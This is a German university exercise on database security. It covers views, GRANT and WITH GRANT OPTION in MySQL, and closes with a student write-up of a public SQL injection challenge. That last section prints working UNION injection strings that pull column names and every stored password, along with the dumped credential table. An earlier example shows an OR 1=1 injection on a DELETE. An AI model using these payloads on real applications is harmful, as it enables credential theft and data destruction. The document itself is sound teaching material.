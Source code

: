 # Übung DS: Datensicherheit

Gruppe 8: Lukas Arnold, Patrick Bucher, Christopher James Christensen, Jonas Kaiser, Melvin Werthmüller

## 1. Selbststudium

### Frage 1

Was heisst Datensicherheit?

- Der Begriff Datensicherheit umfasst technische und softwaregestützte
  Massnahmen zum Schutz der Daten vor Verfälschung, Zerstörung und Verlust.

### Frage 2

Welche Rolle spielen Sichten für die Datensicherheit?

- Mithilfe von Sichten (Views) können Ausschnitte aus Tabellen mittels
  `SELECT`-Statements definiert werden.
- Der Zugriff der Benutzer auf die Datenbank kann eingeschränkt werden, indem
  man den Zugriff auf bestimmte Sichten beschränkt und den Zugriff auf die
  zugrundeliegende(n) Tabelle(n) sperrt.
- Das einer Sicht zugrundeliegende SQL-`SELECT`-Statement kann die sichtbaren
  Spalten über die Projektion (`SELECT …`), die sichtbaren Zeilen über die Selektion
  (`WHERE …`) einschränkten.

### Frage 3

Was heisst Grant? Was heisst Grant Option?

- `GRANT` ist der Name des SQL-Befehls, mit welchem man einem Benutzer oder
  einer Benutzergruppe bestimmte Berechtigungen auf bestimmte Datenbankobjekte
  (Tabellen, Views etc.) geben kann.
- Fügt man einer `GRANT`-Operation die Klausel `WITH GRANT OPTION` hinzu, erhält
  der jeweilige Benutzer (bzw. die jeweilige Benutzergruppe) nicht nur die darin
  spezifizierte Berechtigung, sondern auch die Möglichkeit, diese Berechtigung
  auf weitere Benutzer auszudehnen.

### Frage 4

Was ist SQL-Injection? Wie schützt man sich davor?

- SQL-Injection ist das Ausnutzen von mangelhaft abgesicherten, parametrisierten
  SQL-Anfragen einer Anwendung.
- Dabei wird ein Parameter einer SQL-Anfrage nicht nur -- wie vom Programmierer
  gewünscht -- mit einem Wert des entsprechenden Datentyps besetzt, sondern mit
  einer vom Angreifer injizierten Zeichenkette, z.B. einer erweiterten Bedingung
  oder gar einem ganzen SQL-Befehl.
- Beispiel:
    - Eine Webapplikation enthält dieses SQL-Statement:
        - `DELETE FROM user WHERE id = `
    - Als `username` wird eine Zeichenkette aus dem Query-String erwartet:
        - `/?action=delete&id=42`
    - Stattdessen sendet der Aufrufer folgende Anfrage:
        - `/?action=delete&id=42%20COR%20C1=1`
    - Daraus erstellt die Webapplikation folgendes SQL-Statement:
        - `DELETE FROM user WHERE id = 42 OR 1=1`
    - Da die Bedingung `1=1` für alle Datensätze zutrifft, werden sämtliche
      Einträge der Tabelle `user` gelöscht.

## 2. Views und Grants

### 1. Benutzer erstellen

```sql
create user 'Sokrates' identified by '@Sokrates';
create user 'Russel' identified by '@Russel';
create user 'Kopernikus' identified by '@Kopernikus';
create user 'Popper' identified by '@Augustinus';
create user 'Augustinus' identified by '@Augustinus';
create user 'Curie' identified by '@Curie';
create user 'Kant' identified by '@Kant';
```

### 2. Views erstellen

```sql
create view view_c4 as
    select vorlesungen.* from vorlesungen inner join
    professoren on (vorlesungen.gelesenVon = professoren.PersNr)
    where professoren.Rang = 'C4';

create view view_c3 as
    select vorlesungen.* from vorlesungen inner join
    professoren on (vorlesungen.gelesenVon = professoren.PersNr)
    where professoren.Rang = 'C3';
```

### 3. Rechte vergeben

```sql
select Name from professoren where Rang = 'C4';
```

    Sokrates
    Russel
    Curie
    Kant

```sql
grant select, insert, update, delete on view_c4 to Sokrates;
grant select, insert, update, delete on view_c4 to Russel;
grant select, insert, update, delete on view_c4 to Curie;
grant select, insert, update, delete on view_c4 to Kant;

grant select on view_c3 to Sokrates;
grant select on view_c3 to Russel;
grant select on view_c3 to Curie;
grant select on view_c3 to Kant;
```

```sql
select Name from professoren where Rang = 'C3';
```

    Kopernikus
    Popper
    Augustinus

```sql
grant select, insert, update, delete on view_c3 to Kopernikus;
grant select, insert, update, delete on view_c3 to Popper;
grant select, insert, update, delete on view_c3 to Augustinus;
```

### 4. Test
 
Mit einem Professoren-Benutzer des Ranges C4:

```bash
mysql -u Sokrates -p@Sokrates
```

```sql
use uni;
show tables;
```

    view_c3
    view_c4

Sokrates sieht nur die Tabellen (bzw. Views), für welche er explizit Rechte
erhalten hat!

```sql
update view_c4 set Titel = 'Metastrukturdekonstruktion' where Titel = 'Bioethik';
/*
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0
*/

update view_c3 set Titel = 'Postmoderne Wissenschaftstheorie'
    where Titel = 'Der Wiener Kreis';
/*
ERROR 1142 (42000): UPDATE command denied to user 'Sokrates'@'localhost'
for table 'view_c3'
*/
```

Mit einem Professoren-Benutzer des Ranges C3:

```bash
mysql -u Augustinus -p@Augustinus
```

```sql
use uni;
show tables;
```

    view_c3

```sql
update view_c3 set Titel = 'Postmoderne Wissenschaftstheorie'
    where Titel = 'Der Wiener Kreis';
/*
Query OK, 1 row affected, 1 warning (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 1
*/
```

Die Warnung stammt daher, dass die Spalte Titel mit dem Typ `varchar(30)`
definiert ist und der neue Vorlesungstitel abgeschnitten wird.

## 3. SQL Injection

Hackit: [http://hackit.gehaxelt.in/sqli/level1.php](SQL Injection Level 1)

Mit diesem Query-String kann man das Passwort eines Benutzers anhand dessen `id` anzeigen:

    id=0+union+select+id,passwort+as+username,1,1,1+from+user+where+id=3

Für Abfragen mit `UNION` ist es wichtig, die Anzahl zurückgegebener Spalten zu
kennen. Dies habe ich erraten, indem ich jeweils ein `,1` zusätzlich selektiert
habe. Da nur ein einziger Datensatz als Rückgabe erwartet wird, ist es wichtig,
dass der erste Teil der Abfrage keine Ergebnismenge hat. Darum ist `id=0`
gesetzt, weil es keinen Benutzer mit dieser `id` gibt.

Die Spaltennamen habe ich auch erraten, sie liessen sich aber auch über das
`information_schema` ermitteln, indem man die Spalten anhand der
`ordinal_number` ausgibt (Zeilenumbrüche nur aus optischen Gründen vorhanden):

    id=0+union+select+id,
    (select+cols.col+from+
    (select+ordinal_position,column_name+as+col+from+information_schema.columns+
    where+table_name=%27user%27+and+ordinal_position=1)+as+cols)+as+username,1,1,1+from+user

Sämtliche IDs kann man so herausfinden:

    id=0+union+select+id,GROUP_CONCAT(id)+as+username,1,1,1+from+user

Und so sämtliche Passwörter:

    id=0+union+select+id,GROUP_CONCAT(passwort)+as+username,1,1,1+from+user

Wichtig ist, dass man der gewünschten Information den alias-Namen `username`
vergibt, denn dieser Wert wird auf der Seite dargestellt.

Hier ist die ganze Tabelle `user`:

    id  username  passwort
    --  --------  --------
     1  adminer   me_as_a_admin 
     2  rooter    dont_know_me
     3  test      password_to_weak    
